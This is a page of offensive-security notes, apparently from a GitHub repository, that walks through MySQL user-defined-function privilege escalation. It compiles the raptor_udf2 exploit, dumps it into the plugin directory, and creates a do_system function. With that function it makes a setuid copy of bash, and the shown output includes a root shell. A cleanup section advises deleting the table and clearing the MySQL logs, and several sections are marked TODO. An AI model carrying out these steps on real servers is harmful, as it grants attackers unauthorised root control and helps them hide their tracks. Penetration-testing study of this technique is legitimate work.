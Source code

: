 # Living off the Land

## 01 - Detect

TODO: Finish the enumeration part for escalating to root/admin privileges

### 1.1 - Discover what privileges does the user have access

```
MySQL [(none)]> SHOW PRIVILEGES;
```

These two are the most critical ways other than the basic query SQL commands just to get a reverse shell and escalate privileges for abusing the UDF MySQL feature.

```
MySQL [(none)]> SHOW PRIVILEGES \G;

*************************** <number>. row ***************************
Privilege: Execute
  Context: Functions,Procedures
  Comment: To execute stored routines
*************************** <number>. row ***************************
Privilege: File
  Context: File access on server
  Comment: To read and write files on the server

MySQL [(none)]> SELECT user,host FROM mysql.user;

MySQL [(none)]> SHOW GRANTS FOR <username>@<IP>;
```

Exploiting misconfigured services with root access such as MySQL databases can pose a real risk that an attacker can take full control. If the following requirements has been met. MySQL whatever if MySQL has password database or no authentication which makes things even easier for the hacker. Install the following dependencies.

```
$ sudo apt install default-libmysqlclient-dev
```

We have lookup via `searchsploit` tool with a set of local copies of the exploitdb that is stored on the hacker's machine

```
$ searchsploit mysql user-defined function

$ searchsploit -x 1518
```

This [MySQL exploit](https://www.exploit-db.com/exploits/1518) has comments that explains with the builtin function for `do_system()` in MySQL that has something to do with misconfigurations with root access that allows the attacker to take full control. Follow the instructions of what the author wrote to compile the exploit.

## 02 - Exploit

```
$ gcc -g -c raptor_udf2.c -fPIC
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Once the exploit is ready. Authenticate with the MySQL credentials with root privileges

```
$ mysql -u root

mysql> SHOW VARIABLES LIKE '%plugin%';

mysql> SHOW VARIABLES LIKE '%secure_file_priv%';

mysql> USE mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> CREATE TABLE newtbl(LINE BLOB);
Query OK, 0 rows affected (0.01 sec)

mysql> INSERT INTO newtbl VALUES(LOAD_FILE('/home/user/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> SELECT * FROM newtbl INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> SELECT do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service');
+----------------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service') |
+----------------------------------------------------------------------------+
|                                                                          0 |
+----------------------------------------------------------------------------+
1 row in set (0.01 sec)

user@debian:~$ ls -lh /tmp/mysql-service
-rwsr-s--x 1 root root 905K Jan 19 20:18 /tmp/mysql-service
user@debian:~$ /tmp/mysql-service -p
mysql-service-4.1# whoami
root
```

**TODO:** Write about this

Another way to exploit the MySQL service but this technique we'll be using it to transfer the file by copying the shared object file as in binary encoded text to execute MySQL query.

```
$ searchsploit mysql user-defined

$ searchsploit -x 46249
```

## 03 - Cleanup

TODO: Finish this info

Once it was successfully exploited. Get rid of the table you've created and clear the MySQL logs as well.

```
mysql> TRUNCATE TABLE newtbl;
```

---
## References

- [Certcube: MySQL UDF Basics and Exploitation](https://blog.certcube.com/mysql-udf-basics-and-exploitation/)

- [Privilege Escalation with MySQL User Defined Functions](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)

- [Lib MySQLUDF_Sys](https://github.com/mysqludf/lib_mysqludf_sys)

- [Database Takeover User-Defined Functions (UDF) for MySQL and PostgreSQL Github repository](https://github.com/sqlmapproject/udfhack)

- [MySQL Show Privileges Statement](https://www.tutorialspoint.com/mysql/mysql_show_privileges_statement.htm)